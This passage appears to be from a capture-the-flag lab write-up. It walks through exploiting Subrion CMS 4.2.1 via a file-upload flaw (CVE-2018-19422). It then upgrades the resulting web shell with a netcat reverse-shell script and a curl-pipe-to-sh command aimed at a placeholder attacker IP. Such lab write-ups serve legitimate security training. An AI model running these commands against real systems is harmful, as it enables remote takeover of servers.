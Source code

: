 ![c721c8bf021ec009fa6bf405b2fe3e5f.png](/resources/1e1b004d3c2145ea890b205b8b6ab09e.png)

After decoding the password we can log into the admin panel:

![4474d94c120d4381679d3ba29d32789e.png](/resources/776dea3c52e34bc5a40e6c052333cedb.png)

# Initial Foothold

### \[-] www-data\@TechSupport

Scrolling down a bit, we will find the Subrion version number 4.2.1:

![eb4886730fccceebc904707234aac1c8.png](/resources/a1a1dd87ee05453a81f2cb765d48b18d.png)

Searching for "subrion 4.2.1 exploit" leads us to this [exploit by Fellipe Oliveira and Swammers8](https://github.com/Swammers8/SubrionCMS-4.2.1-File-upload-RCE-auth-/blob/main/exploit.py). The exploit attempts to upload a PHP web shell but with the PHAR extension since it is not blocked in the `.htaccess` file ([CVE-2018-19422](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19422)).

After saving the exploit, we can run it using `python3`:

```sh
python3 exploit.py -u http://tech.thm/subrion/panel/ -l <USERNAME> -p <PASSWORD>
```

![c32d0c5e0cd37bccddcabaf420b3be36.png](/resources/cf510e456df14877b95e297c4dcfc506.png)

This shell is limited as we cannot change directories and do any proper enumeration. We can upgrade our shell by creating a reverse shell bash script on our attacking machine, then download and run the script on the victim machine.

We will first need to create a bash script with the reverse shell command:

```sh
#!/usr/bin/env bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

Save it as `shell.sh` then host it using Python:

```sh
python3 -m http.server 8888
```

Next, start a [Netcat](https://linux.die.net/man/1/nc) listener:

```sh
nc -nvlp 4444
```

The command we will send to the current shell will download our bash script, pipe it to bash to run the script and we should get a connection back to our Netcat listener:

```plaintext
curl <ATTACKER_IP>:8888/shell.sh | sh
```

